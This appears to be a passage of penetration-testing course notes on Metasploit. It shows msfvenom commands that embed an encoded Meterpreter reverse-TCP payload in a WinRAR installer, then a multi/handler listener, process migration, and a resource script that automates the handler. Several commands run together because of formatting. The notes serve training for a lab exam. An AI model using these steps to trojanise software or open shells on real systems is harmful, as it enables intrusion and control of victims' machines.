 > 📌 Modern antivirus detects and blocks the encoded payload as soon as the download is started:​![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-0a77cc42fa547ba68f55942bb166da905d8fe024%2Fimage-20230415214414552.png?alt=media)​

#### Injecting Payloads into PEs <a href="#injecting-payloads-into-pes" id="injecting-payloads-into-pes"></a>

🗒️ [Windows **Portable Executable**](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit) (**PE**) _is a file format for executables, object code, DLLs and others, used in 32-bit and 64-bit Windows O.S._

* Download a portable executable, **`e.g.`** [WinRAR](https://www.win-rar.com/download.html)​
* Payloads can be injected into PEs with `msfvenom` with the **`-x`** and **`-k`** options

msfvenom -p windows/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -e x86/shikata\_ga\_nai -i 10 -f exe -x winrar-x32-621.exe > /home/kali/certs/ejpt/Windows\_Payloads/winrar.exe![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-27de7cdb23d59739b4d177f1a32ddc74780573ed%2Fimage-20230415220833685.png?alt=media)cd /home/kali/certs/ejpt/Windows\_Payloadssudo python -m http.server 8080msfconsole -q​use multi/handlerset payload windows/meterpreter/reverse\_tcpset LHOST 192.168.31.128set LPORT 1234run

* Transfer and run the `winrar.exe` file to the target O.S.
* File description is kept, but not its functionality.

![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-c416cf444412c992defadf09a24f6adeb9401aac%2Fimage-20230415221016113.png?alt=media)![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-bbcec3f24282eddff37d2e07144fcfd9de12ccdc%2Fimage-20230415221130544.png?alt=media)

* Proceed with the Post Exploitation module to migrate the process into another one, in the `meterpreter` session

run post/windows/manage/migrate![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ca9eef2a7b72ca09defdcf07d701d4dc667061cc%2Fimage-20230415221432202.png?alt=media)

#### Automation with [Resource Scripts](https://www.offsec.com/metasploit-unleashed/writing-meterpreter-scripts/)​ <a href="#automation-with-resource-scripts" id="automation-with-resource-scripts"></a>

Repetitive tasks and commands can be automated using **MSF resource scripts** (same as batch scripts).

* Almost every MSF command can be automated.

ls -al /usr/share/metasploit-framework/scripts/resource![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-95ab3be68e60afb06d3824d9869156fdfb649c9f%2Fimage-20230415222643575.png?alt=media)/usr/share/metasploit-framework/scripts/resource**`e.g. 1`**

* _Automate the process of setting up a handler for the generated payloads_, by creating a new `handler.rc` file

nano handler.rc​# Insert the following lines# by specifying the commands sequentially​use multi/handlerset payload windows/meterpreter/reverse\_tcpset LHOST 192.168.31.128set LPORT 1234run​# Save it and exit
